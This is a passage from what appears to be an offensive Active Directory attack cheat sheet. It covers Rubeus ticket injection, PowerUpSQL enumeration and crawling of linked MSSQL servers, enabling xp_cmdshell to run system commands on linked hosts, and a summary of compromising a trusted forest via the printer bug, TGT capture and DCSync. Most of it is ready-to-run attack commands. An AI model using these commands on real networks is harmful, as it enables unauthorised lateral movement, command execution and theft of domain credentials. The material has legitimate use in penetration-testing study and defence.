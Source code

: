 Using Rubeus:
```
.\Rubeus.exe asktgs /ticket:<kirbi file> /service:"Service's SPN" /ptt
```

### Abuse MSSQL Servers

- Enumerate MSSQL Instances: `Get-SQLInstanceDomain`
- Check Accessibility as current user: 
```
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```
- Gather Information about the instance: `Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose`
- Abusing SQL Database Links: \
*WUT IS DIS?: A database link allows a SQL Server to access other resources like other SQL Server. If we have two linked SQL Servers we can execute stored procedures in them. Database links also works across Forest Trust!*
     
Check for existing Database Links:
```
#Check for existing Database Links:
#PowerUpSQL:
Get-SQLServerLink -Instace <SPN> -Verbose
     
#MSSQL Query:
select * from master..sysservers
```
Then we can use queries to enumerate other links from the linked Database:
```
#Manualy:
select * from openquery("LinkedDatabase", 'select * from master..sysservers')
     
#PowerUpSQL (Will Enum every link across Forests and Child Domain of the Forests):
Get-SQLServerLinkCrawl -Instance <SPN> -Verbose
     
#Then we can execute command on the machine's were the SQL Service runs using xp_cmdshell
#Or if it is disabled enable it:
EXECUTE('sp_configure "xp_cmdshell",1;reconfigure;') AT "SPN"
```
Query execution: 
```
Get-SQLServerLinkCrawl -Instace <SPN> -Query "exec master..xp_cmdshell 'whoami'"
```

### Breaking Forest Trusts

*WUT IS DIS?: \
TL;DR \
If we have a bidirectional trust with an external forest and we manage to compromise a machine on the local forest that has enabled unconstrained delegation (DCs have this by default), we can use the printerbug to force the DC of the external forest's root domain to authenticate to us. Then we can capture it's TGT, inject it into memory and DCsync to dump it's hashes, giving ous complete access over the whole forest.*
